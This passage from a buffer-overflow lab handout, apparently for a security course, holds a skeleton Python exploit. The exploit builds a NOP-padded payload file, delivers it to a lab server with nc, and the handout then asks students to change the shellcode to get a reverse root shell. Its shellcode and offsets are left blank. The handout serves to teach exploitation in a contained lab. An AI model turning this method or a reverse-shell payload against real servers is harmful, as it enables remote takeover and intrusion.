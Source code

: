 \begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address 
# Use 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then feed it to
the vulnerable server. If your exploit is implemented correctly, the 
command you put inside your shellcode will be executed. If your 
command generates some outputs, you should be able to see
them from the container window. Please provide proofs to show that you
can successfully get the vulnerable server to run 
your commands.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Reverse shell.}
We are not interested in running some pre-determined commands. We 
want to get a root shell on the target server, so we can 
type any command we want. Since we are on a remote machine,
if we simply get the server to run \texttt{/bin/sh}, we won't be able to
control the shell program. Reverse shell is a typical
technique to solve this problem. Section~\ref{sec:guildelines} provides 
detailed instructions on how to run a reverse shell.
Please modify the command string in your shellcode, so you can
get a reverse shell on the target server. 
Please include screenshots and explanation in your lab report.



